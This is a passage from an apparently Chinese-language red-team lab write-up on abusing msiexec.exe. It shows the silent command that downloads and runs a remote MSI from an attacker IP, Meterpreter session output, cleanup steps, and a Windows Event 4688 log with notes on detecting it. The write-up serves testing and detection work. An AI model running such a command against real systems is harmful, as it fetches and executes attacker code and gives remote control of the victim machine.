 **命令**：
```cmd
msiexec.exe /q /i http://192.168.126.146/1.msi
```

**结果**：
- `msiexec.exe`下载并执行`1.msi`，触发Meterpreter Payload。
- 攻击机接收会话：
  ```
  [*] Sending stage (180291 bytes) to 192.168.126.149
  [*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49323) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: 12306Br0-PC\12306Br0
  ```

#### 5. 清理

**靶机**：
```cmd
taskkill /IM msiexec.exe /F
```

**攻击机**：
- 关闭Metasploit会话：`exit`
- 停止Web服务器：`sudo systemctl stop apache2`
- 删除MSI文件：`rm /var/www/html/1.msi`

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: 12306Br0-PC
描述:
已创建新进程。

进程信息:
  新进程 ID: 0xe78
  新进程名称: C:\Windows\System32\msiexec.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0xefa
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: msiexec.exe /q /i http://192.168.126.146/1.msi
```

**分析**：
- 日志记录`msiexec.exe`执行，命令行包含`/q /i http://...`。
- 父进程为`cmd.exe`，提示通过命令行触发。
